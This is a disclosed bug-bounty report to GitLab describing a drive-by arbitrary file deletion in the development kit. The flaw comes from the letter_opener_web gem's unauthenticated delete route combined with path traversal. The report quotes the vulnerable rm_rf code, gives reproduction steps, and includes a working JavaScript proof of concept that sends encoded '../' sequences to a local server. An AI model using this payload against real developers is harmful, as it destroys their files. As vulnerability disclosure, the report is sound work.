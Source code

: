 # Drive-by arbitrary file deletion in the GDK via letter_opener_web gem

## Report Details
- **Report ID**: 1353103
- **URL**: https://hackerone.com/reports/1353103
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-09-27T23:20:24.866Z
- **Disclosed**: 2021-11-12T20:29:13.357Z

## Reporter
- **Username**: vakzz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary
When running gitlab in development, an extra gem used to view emails that have been sent:

https://gitlab.com/gitlab-org/gitlab/-/blob/v14.3.0-ee/config/routes/development.rb#L14
```ruby
mount LetterOpenerWeb::Engine, at: '/rails/letter_opener'
```

One of the routes it adds is to delete a letter:
https://github.com/fgrehm/letter_opener_web/blob/v1.4.0/app/controllers/letter_opener_web/letters_controller.rb#L38
```ruby

    def destroy
      @letter.delete
      redirect_to routes.letters_path
    end

    private
   def load_letter
      @letter = Letter.find(params[:id])
      head :not_found unless @letter.exists?
    end
```

The find and delete methods for `Letter` are:

https://github.com/fgrehm/letter_opener_web/blob/v1.4.0/app/models/letter_opener_web/letter.rb#L23
```ruby
    def self.find(id)
      new(id: id)
    end

    def initialize(params)
      @id      = params.fetch(:id)
      @sent_at = params[:sent_at]
    end

    def delete
      FileUtils.rm_rf("#{LetterOpenerWeb.config.letters_location}/#{id}")
    end
```

The delete route has no CSRF protection or authentication, so the only protection is CORS. Using fetch to post with `_method=delete` and `no-cors` allows the route to be hit without triggering a preflight check as it is considered a simple request.

In order to delete files outside of `letters_location`, the id needs to contain `../` and for this to happen the path needs to be encoded as `%2e%2e%2f`.  Luckily chrome will automatically decode `%2e` to `.` and the request will never make it to the letter opener route. Firefox and Safari do not do this, and so can be used to trigger the file delete.

### Steps to reproduce

1. Setup the GDK: https://gitlab.com/gitlab-org/gitlab-development-kit/-/blob/main/doc/index.md#one-line-installation
2. Ensure that gitlab is running on http://localhost:3000/
3. Login and setup the admin user
4. Visit http://localhost:3000/rails/letter_opener and check that there are some letters waiting
5. Create a file `/tmp/something` with some contents
6. Visit https://gdk.vakzz.me/ in firefox or safari (basic auth is `bb` / `924VYZF4BcB53vwa`)
7. Enter `/tmp/something` and click delete
8. See that the file `/tmp/something` has been deleted

### Impact
Allows a malicious website to delete arbitrary files or folders on a developers computer if visited using Firefox or Safari

### Examples
POC at https://gdk.vakzz.me (basic auth is `bb` / `924VYZF4BcB53vwa`)

The delete code from the above site is:
```javascript
        function deleteFile() {
            const fileToDelete = fileInput.value;
            fileInput.value = "";

            const path = "%2e%2e%2f".repeat(20) + encodeURIComponent(fileToDelete);
            const url = `http://127.0.0.1:3000/rails/letter_opener/${path}`
            
            const form = new FormData()
            form.append("_method", "DELETE")
            return fetch(url, { method: 'POST', body: form, mode: "no-cors" });
        }
```

### What is the current *bug* behavior?
* No CSRF protection on the letter_opener routes

### What is the expected *correct* behavior?
* They should have CSRF protection

### Relevant logs and/or screenshots
Demo:
{F1463526}

### Output of checks
#### Results of GitLab environment info
```
System information
System:		Ubuntu 20.04
Proxy:		no
Current User:	vagrant
Using RVM:	no
Ruby Version:	2.7.4p191
Gem Version:	3.1.6
Bundler Version:2.1.4
Rake Version:	13.0.6
Redis Version:	6.0.15
Git Version:	2.33.0
Sidekiq Version:5.2.9
Go Version:	go1.16.8 linux/amd64

GitLab information
Version:	14.4.0-pre
Revision:	b757b9f532c
Directory:	/home/vagrant/gitlab-development-kit/gitlab
DB Adapter:	PostgreSQL
DB Version:	12.6
URL:		http://127.0.0.1:3000
HTTP Clone URL:	http://127.0.0.1:3000/some-group/some-project.git
SSH Clone URL:	ssh://git@127.0.0.1:2222/some-group/some-project.git
Elasticsearch:	no
Geo:		no
Using LDAP:	no
Using Omniauth:	yes
Omniauth Providers: google_oauth2

GitLab Shell
Version:	13.21.1
Repository storage paths:
- default: 	/home/vagrant/gitlab-development-kit/repositories
GitLab Shell path:		/home/vagrant/gitlab-development-kit/gitlab-shell
Git:		/usr/bin/git
```

## Impact

Allows a malicious website to delete arbitrary files or folders on a developers computer if visited using Firefox or Safari

## Attachments
- delete_poc.mp4
